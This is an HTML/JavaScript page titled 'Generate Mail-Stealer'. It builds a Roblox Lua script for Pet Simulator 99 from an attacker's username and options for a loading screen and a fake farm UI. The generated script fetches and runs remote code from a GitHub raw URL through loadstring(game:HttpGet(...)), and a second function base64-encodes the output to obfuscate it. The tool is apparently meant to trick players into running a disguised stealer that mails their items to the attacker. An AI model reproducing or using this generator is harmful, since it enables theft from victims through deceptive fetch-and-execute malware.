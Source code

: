 <!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Made By Coen, Thanks You!</title>
<style>
  body { font-family: Arial, sans-serif; background-color: #f4f4f4; text-align: center; padding: 50px; }
  .container { background-color: white; padding: 20px; border-radius: 8px; display: inline-block; }
  .input-field, .checkbox-group, button { margin: 10px 0; }
  button { padding: 10px 20px; background-color: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer; }
  button:hover { background-color: #0056b3; }
  #output { text-align: left; }
</style>
</head>
<body>
  <div class="container">
  <h1>Generate Mail-Stealer</h1>
    <div class="input-field">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username">
    </div>
    <div class="checkbox-group">
      <input type="checkbox" id="loadingscreen" name="loadingscreen">
      <label for="loadingscreen">Loadingscreen</label>
    </div>
    <div class="checkbox-group">
      <input type="checkbox" id="farmui" name="farmui">
      <label for="farmui">Farmui</label>
    </div>
    <button onclick="generateOutput()">Generate</button>
    <pre id="output"></pre>

  </div>

  <script>
    function generateOutput() {
      var username = document.getElementById("username").value;
      var loadingscreen = document.getElementById("loadingscreen").checked;
      var farmui = document.getElementById("farmui").checked;
      var outputString = 'Username = "' + username + '"<br>' +
                         'loadingscreen = ' + loadingscreen + ' <br>' +
                         'farmui = ' + farmui + '<br>' +
                         'loadstring(game:HttpGet("https://raw.githubusercontent.com/RenYT1/Mail/main/Petsim99/mail"))()';
      document.getElementById("output").innerHTML = outputString;
    }
    function generateObfuscatedOutput() {
      var username = document.getElementById("username").value;
      var loadingscreen = document.getElementById("loadingscreen").checked;
      var farmui = document.getElementById("farmui").checked;
      var outputString = 'Username = "' + username + '"\\n' +
                         'loadingscreen = ' + loadingscreen + ' \\n' +
                         'farmui = ' + farmui + '\\n' +
                         'loadstring(game:HttpGet("https://raw.githubusercontent.com/RenYT1/Mail/main/Petsim99/mail"))()';
      var encodedString = btoa(outputString); // Base64 encode
      document.getElementById("obfuscatedOutput").innerText = encodedString;
    }
  </script>
</body>
</html>
